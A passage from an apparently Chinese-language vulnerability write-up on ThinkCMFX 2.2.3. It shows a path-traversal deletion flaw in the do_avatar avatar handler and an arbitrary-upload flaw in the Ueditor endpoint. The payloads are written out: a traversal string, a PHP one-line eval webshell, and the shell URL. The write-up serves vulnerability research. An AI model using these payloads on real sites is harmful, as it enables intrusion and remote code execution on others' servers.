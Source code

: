 ![](images/15893432821678.jpg)



```bash
url：http://thinkcmf.test/index.php?g=User&m=Profile&a=do_avatar
post:
mgurl=..\..\..\..\..\1.txt
```

![](images/15893432932161.jpg)


0x03.2 漏洞原理

路径：ThinkCMFX\application\User\Controller\ProfileController.class.php

方法：blic function do_avatar(

![](images/15893433030165.jpg)


从文件可以看到 `$imgurl=str_replace('/','',$imgurl); `过滤了 / 但是没有过滤 所以我们无法引入 / 并且在更新头像以后还会从前端接收参数 imgurl 带入函数sp_delete_avatar 跟进去

路径：ThinkCMFX\application\Common\Common\function.php

方法：function sp_delete_avatar(

![](images/15893433168267.jpg)


#### 0x04 前台任意上传漏洞

0x04.1 漏洞演示

* 记得一定要登录!
* 记得一定要登录!
* 记得一定要登录!
* 记得在前台注册一个账号进行登录或是直接登录后台然后在访问此地址


```bash
打开url: http://atest.test/cms/ThinkCMFX_2.2.3/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile
POST:
file = php一句话木马的文件

1.php
<?php
eval($_REQUEST[1]); 
?>
```

![](images/15893433504856.png)



```bsah
shell地址: http://atest.test/cms/ThinkCMFX_2.2.3/data/upload/ueditor/20190724/5d3833dcce7e3.php?1=phpinfo();
```
